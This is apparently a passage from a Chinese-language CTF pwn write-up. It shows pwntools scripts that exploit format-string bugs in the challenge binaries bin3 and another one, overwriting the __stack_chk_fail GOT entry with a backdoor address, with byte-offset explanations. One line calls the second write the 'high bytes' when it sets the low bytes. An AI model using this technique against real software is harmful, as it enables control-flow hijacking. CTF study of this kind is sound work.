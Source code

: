 ```python

backdoor=0x400626
__stack_chk_fail=elf.got["__stack_chk_fail"]

payload='%64c%9$hn%1510c%10$hnAAA' + p64(__stack_chk_fail+2) + p64(__stack_chk_fail)
p.sendline(payload)

p.interactive() 
```
backdoor的地址是0x400626，利用格式化字符串漏洞把 \__stack_chk_fail 的地址覆盖掉
`%64c`：0x40，替换backdoor的两位高字节0x0040
`%64c%9$hn%1510c%10$hnAAA`：占24个字符，24/8=3，偏移为6+3=9
`$hn`：向某个地址写入双字节
`%1510c`：1510+64=0x0626,替换backdoor的两位高字节0x0626
`AAA`：是填充字符，填充到8的倍数
`__stack_chk_fail+2`和`__stack_chk_fail`分别替换成backdoor的高两位字节和低两位字节

<br/>

**[题目地址 bin3](bin3)** 

同样也是利用格式化字符串漏洞来劫持 __stack_chk_fail 
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format; // [rsp+0h] [rbp-60h]
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  read_n(&format, 88LL); 
  printf(&format);
  return 0;
} 
```
利用代码如下：
```python
#!coding:utf-8
from pwn import *

p=process("./bin3")
elf=ELF("./bin3")
backddor=0x40084E
stack_fail = elf.got['__stack_chk_fail']

payload='%64c%9$hn%2062c%10$hnAAA' + p64(stack_fail+2) + p64(stack_fail)
# 将stack_chk_fial 用格式化字符串漏洞 替换成 backdoor 的地址
payload+='a'*(0x68-len(payload))
# 故意覆盖掉canary 触发stack_chk_fail

p.recv()
p.sendline(payload)

p.interactive()
```
